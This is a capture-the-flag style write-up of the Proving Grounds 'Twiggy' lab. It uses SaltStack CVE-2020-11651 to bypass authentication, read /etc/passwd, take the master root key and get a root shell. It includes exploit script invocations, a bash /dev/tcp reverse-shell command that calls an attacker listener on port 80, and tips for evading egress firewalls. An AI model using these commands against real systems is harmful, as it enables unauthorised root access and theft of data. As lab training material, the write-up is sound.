








# Twiggy - Proving Grounds Practice

> **Kill Chain Summary**:
> Network Port Scanning -> Web Reconnaissance (Mezzanine CMS & Port 8000 REST API) -> HTTP Header Fingerprinting (`X-Upstream: salt-api/3000-1`) -> Unauthenticated SaltStack ZeroMQ Exploitation (CVE-2020-11651) -> Egress Firewall Evasion (Routing Callback via Port 80) -> Direct Root Remote Code Execution (`root`).

| Property | Value |
| :--- | :--- |
| **Target Name** | Twiggy |
| **Platform** | Proving Grounds Practice |
| **OS** | Linux |
| **Difficulty** | Intermediate |
| **Status** | Rooted |
| **Key Techniques** | HTTP Response Header Analysis, SaltStack Authentication Bypass (CVE-2020-11651), Egress Firewall Evasion |

---

## 1. Reconnaissance and Enumeration

### 1.1 Port Scanning

A full TCP port scan was performed using Nmap:

```bash
sudo nmap -p- --min-rate 1000 -T4 -Pn 192.168.187.62 -oA nmap/allports
```

```text
PORT     STATE SERVICE
22/tcp   open  ssh
53/tcp   open  domain
80/tcp   open  http
4505/tcp open  unknown
4506/tcp open  unknown
8000/tcp open  http-alt
```

The scan identifies several interesting ports:
- **Port 80:** Standard HTTP web server.
- **Ports 4505 & 4506:** Common default ports for SaltStack (ZeroMQ publisher and request server).
- **Port 8000:** Secondary HTTP service.



### 1.2 Web Enumeration

#### Port 80 (Mezzanine CMS)
Navigating to `http://192.168.187.62/` reveals an instance of Mezzanine CMS:



An administrative login portal was identified at `/admin`:



Standard default credentials failed to authenticate against the interface.

#### Port 8000 (REST API and Header Analysis)
Accessing `http://192.168.187.62:8000/` returns a blank page containing raw JSON:



Inspecting the response headers with curl:

```bash
curl -I http://192.168.187.62:8000/
```

```text
HTTP/1.1 200 OK
Content-Type: application/json
X-Upstream: salt-api/3000-1
```




The `X-Upstream` header discloses the exact backend software version: **`salt-api/3000-1`**.

---

## 2. Initial Access

SaltStack versions prior to 3000.2 are vulnerable to critical flaws known as **CVE-2020-11651** (Authentication Bypass) and **CVE-2020-11652** (Directory Traversal):



> [!NOTE] Concept: CVE-2020-11651 (SaltStack Master Auth Bypass)
> The `ClearFuncs` class in the SaltStack master ZeroMQ communication server fails to properly validate authentication when processing certain methods. An unauthenticated remote attacker can connect directly to port 4506, retrieve the master secret key (`root_key`), and publish arbitrary execution jobs to minions or execute commands directly on the master.

---

## 3. Privilege Escalation

Because SaltStack master processes execute with elevated privileges, successful exploitation of CVE-2020-11651 yields an immediate administrative foothold (`root`).

### 3.1 Exploit Preparation

To run the exploit script, install the required `salt` library within an isolated Python virtual environment:

```bash
python3 -m venv venv
source venv/bin/activate
pip install salt
```

Verify exploit syntax and options:

```bash
python3 exploit.py -h
```

```text
Saltstack exploit for CVE-2020-11651 and CVE-2020-11652

options:
  -h, --help            show this help message and exit
  --master, -m MASTER_IP
  --port, -p MASTER_PORT
  --read, -r READ_FILE
  --exec EXEC           Run a command on the master
  --exec-all EXEC_ALL   Run a command on all minions
```

### 3.2 Verification via Arbitrary File Read

Test the vulnerability by reading `/etc/passwd`:

```bash
python3 exploit.py -m 192.168.187.62 -r "/etc/passwd"
```

```text
[+] Checking salt-master (192.168.187.62:4506) status... ONLINE
[+] Checking if vulnerable to CVE-2020-11651... YES
[*] root key obtained: YW+X7MyAJUrsskh2mt7TkF3FvyJaWLbGfylEiu5AdjFu9Rr8ggmt+HuXNPmPn9rfU1T7rmGnPCY=
[+] Attemping to read /etc/passwd from 192.168.187.62
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
...
mezz:x:997:995::/home/mezz:/bin/false
nginx:x:996:994:Nginx web server:/var/lib/nginx:/sbin/nologin
named:x:25:25:Named:/var/named:/sbin/nologin
```

Authentication is bypassed, and the master root key is retrieved.

### 3.3 Egress Firewall Evasion and Reverse Shell

An initial attempt to trigger a reverse shell connecting back to port 443 failed:

```bash
python3 exploit.py -m 192.168.187.62 --exec 'bash -i >& /dev/tcp/192.168.45.226/443 0>&1'
```

No connection arrived at the listener. The host enforces strict outbound egress firewall filtering that blocks egress on port 443.

> [!TIP] Technique: Egress Firewall Evasion
> Restrictive network security rules often filter high ports and even standard SSL ports like 443 while permitting outbound HTTP traffic on port 80. Switching listeners to port 80 or port 53 frequently circumvents outbound packet inspection.

Launch a Netcat listener on port 80:

```bash
sudo nc -lvnp 80
```

Execute the reverse shell targeting port 80:

```bash
python3 exploit.py -m 192.168.187.62 --exec 'bash -i >& /dev/tcp/192.168.45.226/80 0>&1'
```

```text
[+] Checking salt-master (192.168.187.62:4506) status... ONLINE
[+] Checking if vulnerable to CVE-2020-11651... YES
[*] root key obtained: YW+X7MyAJUrsskh2mt7TkF3FvyJaWLbGfylEiu5AdjFu9Rr8ggmt+HuXNPmPn9rfU1T7rmGnPCY=
[+] Attemping to execute bash -i >& /dev/tcp/192.168.45.226/80 0>&1 on 192.168.187.62
[+] Successfully scheduled job: 20260927174610758865
```

The shell catches on the port 80 listener with root privileges:

```text
listening on [any] 80 ...
connect to [192.168.45.226] from (UNKNOWN) [192.168.187.62] 49446
bash: no job control in this shell
[root@twiggy root]# id
uid=0(root) gid=0(root) groups=0(root)
```

Read the root flag:

```bash
cat /root/proof.txt
```

```text
[FLAG REDACTED]
```



---

## 4. Useful Commands Summary

```bash
# Banner and Header Fingerprinting
curl -I http://192.168.187.62:8000/

# Test SaltStack Remote File Read (CVE-2020-11651)
python3 exploit.py -m <TARGET_IP> -r "/etc/passwd"

# Execute Arbitrary Command via Salt Master
python3 exploit.py -m <TARGET_IP> --exec "<COMMAND>"

# Inbound Shell Setup on Port 80 (Bypassing Outbound Egress Filters)
sudo nc -lvnp 80
```

---

## 5. Key Takeaways and Lessons Learned

1. **HTTP Header Analysis:** API and service endpoints can contain critical version indicators in custom headers (such as `X-Upstream`, `Server`, or `X-Powered-By`). Always inspect complete response headers when analyzing unfamiliar web services.
2. **Correlating Custom Ports:** Ports 4505 and 4506 often appear as "unknown" in initial Nmap scans. Researching service defaults immediately points to SaltStack master services.
3. **Egress Firewall Troubleshooting:** When an RCE exploit executes successfully without triggering errors but no reverse shell arrives, immediately investigate outbound network filtering and pivot the callback listener to port 80 or 53.

---

#proving-grounds #linux #intermediate #saltstack #zeromq #cve-2020-11651 #api-enumeration #egress-evasion #root
